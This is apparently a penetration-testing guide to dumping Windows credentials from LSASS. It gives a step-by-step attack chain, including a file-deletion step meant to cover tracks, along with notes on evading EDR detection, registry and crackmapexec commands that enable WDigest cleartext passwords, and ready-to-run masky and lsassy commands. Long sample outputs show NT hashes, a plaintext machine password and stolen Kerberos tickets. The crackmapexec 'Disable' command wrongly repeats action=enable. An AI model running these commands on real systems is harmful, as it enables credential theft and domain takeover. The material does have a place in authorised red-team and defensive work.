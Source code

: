 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Windows Credential Dumping Guide
## References
* [https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)
* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* References
	* @splinter_code blog: The Hidden Side of SecLogon Part 1 and 2 -<br />[https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
	* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

## Example Attacks

* <details><summary>BLS Classic (Click to expand)</summary><p>
	* Process
		1. Upload `Procdump.exe` to the target system
			* `smbclient.py`
		1. Dump `Lsass` process with `Procdump` ([TTP](TTP/T1003_OS_Credential_Dumping/001_LSASS_Memory/T1003.001.md))
		1. Download the dump file
		1. Clean up ([TTP](TTP/T1070_Indicator_Removal_on_Host/004_File_Deletion/T1070.004.md))
		1. Use `Mimikatz` or `Pypykatz` to read the dump file on your local Kali box ([TTP](TTP/T1003_OS_Credential_Dumping/001_LSASS_Memory/T1003.001.md))
		1. Extract a Kerberos ticket from the dump file with `Pypykatz` ([TTP](TTP/T1558_Steal_or_Forge_Kerberos_Tickets/003_Kerberoasting/T1558.003.md))
		1. Authenticate to the machine with the ticket instead of a hash or password ([TTP](TTP/T1550_Use_Alternate_Authentication_Material/003_Pass_the_Ticket/T1550.003.md))
		1. Recover local credentials using `secretsdump.py` ([TTP](TTP/T1003_OS_Credential_Dumping/002_Security_Account_Manager/T1003.002.md))


## Overview

Several TTPs are consistently present through the tools described:

* [`OS Credential Dumping` TTP](TTP/T1003_OS_Credential_Dumping/T1003.md)

* For the "one time sign-in" function of Windows, lsass.exe is use to hold credentials for use as needed
	* <details><summary>Dumping `lsass.exe` (Click to expand)</summary><p>
		* Common Approach
			* Note
				* The drawback 
					* So it means that if you want to get one of those process handles in your process you still need to open a handle to lsass to duplicate it.
			* Process
				1. Open a process handle to the lsass PID through an `OpenProcess` call with the access `PROCESS_QUERY_INFORMATION` and `PROCESS_VM_READ`
					* Where Detected: Usage of `OpenProcess/NtOpenProcess`
					* The kernel allows driver registration of several callback routines for thread, process, and desktop handle operations. `ObRegisterCallbacks` can achieve these functions.
						* Required Structs to register a new callback
							* `OB_CALLBACK_REGISTRATION`
							* `OB_OPERATION_REGISTRATION`.
								* Allows you to specify a combination of parameters to monitor any newly created/duplicate process handle directly from the kernel. 
								* Sysmon event id 10 targets this mechanism
				1. Use `MiniDumpWriteDump` to read all the process address space of lsass and save it into a file on the disk.
					* Note: `MiniDumpWriteDump` relies on the usage of the `NtReadVirtualMemory` system call, allowing read of remote processes
					* The second detection position is usually over the usage of `NtReadVirtualMemory`, which also used internally by `ReadProcessMemory`.
						* Detection (varies)
							* Most Common Approach
								* Inline Hooking to intercept `NtReadVirtualMemory` calls that target the **lsass** process.
									* The problem with this approach is that the monitoring occurs at the same ring level of the process itself, so techniques like direct system calls or unhooking would easily bypass this kind of detection.
							* Modern/effective EDR Approach (Better Option)
								* Use the Threat Intelligence ETW to receive notifications directly from the kernel on specific functions invocation.
									* Example: Whenever a `NtReadVirtualMemory` is called, the kernel function `EtwTiLogReadWriteVm` will be used to track the usage and send the event to the registered consumers.
	* <details><summary>Known Dump Methods for Common Approach (Click to expand)</summary><p>
		* `@matteomalvica` and `@b4rtik` blog post: Win Defender ATP Cred Bypass -<br />[https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/](https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/)
			* Create a snapshot of the process in order to perform indirect memory reads by using the snapshot handle. The snapshot handle is then used in the MiniDumpWriteDump call instead of using the target process handle directly. 
		* `@SkelSec` Duping AV with handles -<br />[https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
			* Reuses already opened handles to the lsass process thus avoiding a direct OpenProcess call on lsass.
		* `@_EthicalChaos_` Dumping LSASS in memory undetected using MirrorDump -<br />[https://www.pentestpartners.com/security-blog/dumping-lsass-in-memory-undetected-using-mirrordump/](https://www.pentestpartners.com/security-blog/dumping-lsass-in-memory-undetected-using-mirrordump/)
			* Load an arbitrary LSA plugin that performs a duplication of the lsass process handle from the lsass process into the dumping process. So the dumping process has a ready to use process handle to lsass without invoking OpenProcess.
		* Alternative
			I want to mention a specific thing about the technique of reusing already opened lsass handles. While it's a very valid technique, it has the clear disadvantage that on most systems you won't easily find a handle holder that's not lsass itself. You can verify it with a simple handles enumerator tool:

### Tips and Tricks Beforehand
#### wdigest
* <details><summary>wdigest (Click to expand)</summary><p>
	* References
	* Overview
		* wdigest is a setting causes the passwords contained in memory to be present in cleartext
		* wdigest is disabled by default in "newer" systems, and should be returned to disabled before leaving any engagement
		* A user must log in again after wdigest is enabled for the password to appear in memory in cleartext
			* Note this caveat when resetting settings to a secure mode

##### Modify wdigest Process ([`Modify Authentication Process` TTP](TTP/T1556_Modify_Authentication_Process/T1556.md))
###### Linux
* <details><summary>crackmapexec (Click to expand)</summary><p>
	* Enable

			crackmapexec smb <target> -u <username> -p <password> -M wdigest -o action=enable
	* Disable

			crackmapexec smb <target> -u <username> -p <password> -M wdigest -o action=enable

###### Windows
* <details><summary>Local (Click to expand)</summary><p>
	* Enable
		* `reg`
		
				reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /d 1
	* Disable
		* `reg`

				reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /d 0
* <details><summary>Requirements (Click to expand)</summary><p>
	* Windows Privilege
		* `SeDebugPrivilege`
	* For modern machines, Windows Defender prevents PowerShell processes from accessing LSASS. CMD or .NET tools must be used instead.

### Credential Dumping Process
#### From a Linux Machine
* LOLBAS and Sysinternals
	* <details><summary>Notes, References (Click to expand)</summary><p>
		* LOLBAS Project -<br />[https://lolbas-project.github.io/#t1003](https://lolbas-project.github.io/#t1003)
		* Quick retrieve Sysinternals for LOLBAS attacks

				wget https://download.sysinternals.com/files/SysinternalsSuite.zip
	* PKINIT-based (Active Directory)
		* <details><summary>masky (Click to expand) -<br />[https://github.com/Z4kSec/Masky](https://github.com/Z4kSec/Masky)</summary><p>
			* References
			* Examples
				* Example 1

						root@jack-Virtual-Machine:~/Masky# masky -v -d $DOMAIN -u $LOCAL_ADMIN -p $PASSWORD -ca ca.$DOMAIN\\MICROSOFTDELIVERY-CA-CA win11.$DOMAIN
					* Example Output (Unsuccessful Dump, Session Missing)

							root@jack-Virtual-Machine:~/Masky# masky -d $DOMAIN -u $DOMAIN_ADMIN -p $PASSWORD -ca ca.$DOMAIN\\MICROSOFTDELIVERY-CA-CA win11                                          

							  __  __           _
							 |  \/  | __ _ ___| | ___   _ 
							 | |\/| |/ _` / __| |/ / | | |
							 | |  | | (_| \__ \   <| |_| |
							 |_|  |_|\__,_|___/_|\_\__,  |
							  v0.0.3                 |___/

							[*] Loading options...                                     
							[*] 1 target(s) loaded
							[+] (win11) Current user seems to be local administrator, attempting to run Masky agent...
							[*] (win11) No user session was hijacked
							[*] Exiting...
	* comsvcs
		* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
			* References
				* [https://twitter.com/HackAndDo/status/1447970760593711105](https://twitter.com/HackAndDo/status/1447970760593711105)
				* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
			* Example Commands
				* comsvcs (default)
					* This method only uses built-in Windows files to extract remote credentials. It uses minidump function from comsvcs.dll to dump lsass process.

							lsassy -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
						* <details><summary>Example Output (Click to expand)</summary><p>

								lsassy -u 'domain_admin' -p 'P@ssw0rd' -d 'domain.com' -K Kerberos -f pretty -o outfile.txt 10.0.0.60
								SUCCESS:root:Authentication successful
								[+] 10.0.0.60 Authentication successful
								SUCCESS:root:Lsass dumped in C:\Windows\Temp\OwGcbY.fnt (55581140 Bytes)
								[+] 10.0.0.60 Lsass dumped in C:\Windows\Temp\OwGcbY.fnt (55581140 Bytes)
								SUCCESS:root:Lsass dump deleted
								[+] 10.0.0.60 Lsass dump deleted
								SUCCESS:root:MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
								[+] 10.0.0.60 MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
								SUCCESS:root:MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
								[+] 10.0.0.60 MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
								SUCCESS:root:domain.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
								[+] 10.0.0.60 domain.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
								SUCCESS:root:MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
								[+] 10.0.0.60 MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
								SUCCESS:root:DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:14 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_53b91a0b.kirbi)
								[+] 10.0.0.60 DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:14 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_53b91a0b.kirbi)
								SUCCESS:root:DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:14 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_375a9e7f.kirbi)
								[+] 10.0.0.60 DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:14 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_375a9e7f.kirbi)
								SUCCESS:root:DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:13 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_6e2f1491.kirbi)
								[+] 10.0.0.60 DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:13 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_6e2f1491.kirbi)
								SUCCESS:root:DOMAIN.COM\domain_user   [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:07 (TGT_DOMAIN.COM_domain_user_krbtgt_DOMAIN.COM_a88b0199.kirbi)
								[+] 10.0.0.60 DOMAIN.COM\domain_user   [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:07 (TGT_DOMAIN.COM_domain_user_krbtgt_DOMAIN.COM_a88b0199.kirbi)
								SUCCESS:root:DOMAIN.COM\domain_user   [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:07 (TGT_DOMAIN.COM_domain_user_krbtgt_DOMAIN.COM_8b453c42.kirbi)
								[+] 10.0.0.60 DOMAIN.COM\domain_user   [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:07 (TGT_DOMAIN.COM_domain_user_krbtgt_DOMAIN.COM_8b453c42.kirbi)
								SUCCESS:root:DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:02 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_4e7fda28.kirbi)
								[+] 10.0.0.60 DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:02 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_4e7fda28.kirbi)
								SUCCESS:root:DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:02 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_824abab7.kirbi)
								[+] 10.0.0.60 DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:02 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_824abab7.kirbi)
								SUCCESS:root:DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:01 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_035c7523.kirbi)
								[+] 10.0.0.60 DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:01 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_035c7523.kirbi)
								SUCCESS:root:Credentials saved to outfile.txt
								[+] 10.0.0.60 Credentials saved to outfile.txt
								SUCCESS:root:25 Kerberos tickets written to /root/lsassy/Kerberos
								[+] 10.0.0.60 25 Kerberos tickets written to /root/lsassy/Kerberos
								SUCCESS:root:8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
								[+] 10.0.0.60 8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
				* comsvcs_stealth

						lsassy -m comsvcs_stealth -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>

							lsassy -m comsvcs_stealth -u 'domain_admin' -p 'P@ssw0rd' -d 'microsoftdelivery.com' -K Kerberos -f pretty -o outfile2.txt 10.0.0.60
							SUCCESS:root:Authentication successful
							[+] 10.0.0.60 Authentication successful
							SUCCESS:root:Comsvcs.dll copied
							[+] 10.0.0.60 Comsvcs.dll copied
							SUCCESS:root:Lsass dumped in C:\Windows\Temp\3XyHYoW.otf (55544244 Bytes)
							[+] 10.0.0.60 Lsass dumped in C:\Windows\Temp\3XyHYoW.otf (55544244 Bytes)
							SUCCESS:root:Lsass dump deleted
							[+] 10.0.0.60 Lsass dump deleted
							SUCCESS:root:MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							[+] 10.0.0.60 MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							SUCCESS:root:MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
							[+] 10.0.0.60 MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
							SUCCESS:root:microsoftdelivery.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
							[+] 10.0.0.60 microsoftdelivery.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
							SUCCESS:root:MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							[+] 10.0.0.60 MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_53b91a0b.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_53b91a0b.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_375a9e7f.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_375a9e7f.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:13 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_6e2f1491.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:13 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_6e2f1491.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_a88b0199.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_a88b0199.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_8b453c42.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_8b453c42.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_4e7fda28.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_4e7fda28.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_824abab7.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_824abab7.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_035c7523.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:01 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_035c7523.kirbi)
							SUCCESS:root:Credentials saved to outfile2.txt
							[+] 10.0.0.60 Credentials saved to outfile2.txt
							SUCCESS:root:25 Kerberos tickets written to /root/lsassy/Kerberos
							[+] 10.0.0.60 25 Kerberos tickets written to /root/lsassy/Kerberos
							SUCCESS:root:8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
							[+] 10.0.0.60 8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
	* procdump
		* <details><summary>lsassy (Click to expand) -<br />[https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)</summary><p>
			* References
			* Methods
				* This method uploads procdump.exe from SysInternals to dump lsass process.
				* procdump

						lsassy -m procdump -u $LOCAL_ADMIN -p $PASSWORD -d $DOMAIN -K $WORKDIR/Kerberos-Outfolder -f <format, e.g., pretty> -o outfile.txt <target>
					* <details><summary>Example Output (Click to expand)</summary><p>

							lsassy -m procdump --options procdump_path=binaries/procdump64.exe -u 'domain_admin' -p 'P@ssw0rd' -d 'microsoftdelivery.com' -o outfile4.txt 10.0.0.60
							SUCCESS:root:Authentication successful
							[+] 10.0.0.60 Authentication successful
							SUCCESS:root:procdump uploaded
							[+] 10.0.0.60 procdump uploaded
							SUCCESS:root:Lsass dumped in C:\Windows\Temp\K0u0.dmp (56426100 Bytes)
							[+] 10.0.0.60 Lsass dumped in C:\Windows\Temp\K0u0.dmp (56426100 Bytes)
							SUCCESS:root:Lsass dump deleted
							[+] 10.0.0.60 Lsass dump deleted
							SUCCESS:root:MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							[+] 10.0.0.60 MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							SUCCESS:root:MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
							[+] 10.0.0.60 MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
							SUCCESS:root:microsoftdelivery.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
							[+] 10.0.0.60 microsoftdelivery.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
							SUCCESS:root:MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							[+] 10.0.0.60 MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_53b91a0b.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_53b91a0b.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_375a9e7f.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:14 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_375a9e7f.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:13 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_6e2f1491.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_admin  [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:13 (TGT_MICROSOFTDELIVERY.COM_domain_admin_krbtgt_MICROSOFTDELIVERY.COM_6e2f1491.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_a88b0199.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_a88b0199.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_8b453c42.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\domain_user   [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:07 (TGT_MICROSOFTDELIVERY.COM_domain_user_krbtgt_MICROSOFTDELIVERY.COM_8b453c42.kirbi)
							SUCCESS:root:MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_4e7fda28.kirbi)
							[+] 10.0.0.60 MICROSOFTDELIVERY.COM\WIN11$        [TGT] Domain: MICROSOFTDELIVERY.COM - End time: 2022-08-04 01:02 (TGT_MICROSOFTDELIVERY.COM_WIN11$_krbtgt_MICROSOFTDELIVERY.COM_4e7fda28.kirbi)
